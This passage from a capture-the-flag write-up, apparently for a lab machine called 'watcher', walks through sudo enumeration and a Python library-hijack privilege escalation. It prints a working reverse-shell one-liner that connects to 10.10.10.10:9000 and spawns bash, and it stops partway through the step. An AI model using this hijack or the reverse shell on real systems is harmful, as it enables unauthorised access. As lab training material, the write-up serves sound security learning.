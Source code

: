 As mat now, we can get our fifth flag.

## Flag 6

Nice, we became mat now, let's see what can we do as mat here:

```terminal
mat@watcher:~$ sudo -l                                                                                                                                       
Matching Defaults entries for mat on watcher:                                                                                                                
    env_reset, mail_badpass,                                                                                                                                 
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin                                                                 

User mat may run the following commands on watcher:                                                                                                          
    (will) NOPASSWD: /usr/bin/python3 /home/mat/scripts/will_script.py *
```

We can run **will_script.py** as will, let's see what the script does:

```terminal
mat@watcher:~/scripts$ cat will_script.py
import os
import sys
from cmd import get_command

cmd = get_command(sys.argv[1])

whitelist = ["ls -lah", "id", "cat /etc/passwd"]

if cmd not in whitelist:
        print("Invalid command!")
        exit()

os.system(cmd)
```

The script calls `os`, `sys` and `cmd` libraries, and then tries to execute one of the following commands : `ls -lah", "id", "cat /etc/passwd` depending on what we gave it as an argument.

We will be hijacking one of the libraries in order to get another reverse shell. The only library we have write permission to is **cmd.py**, so let's put a python script in the file:

```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",9000));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);
```

>Note : don't forget to change the ip adress in the script!!

The cmd.py file now looks like this:
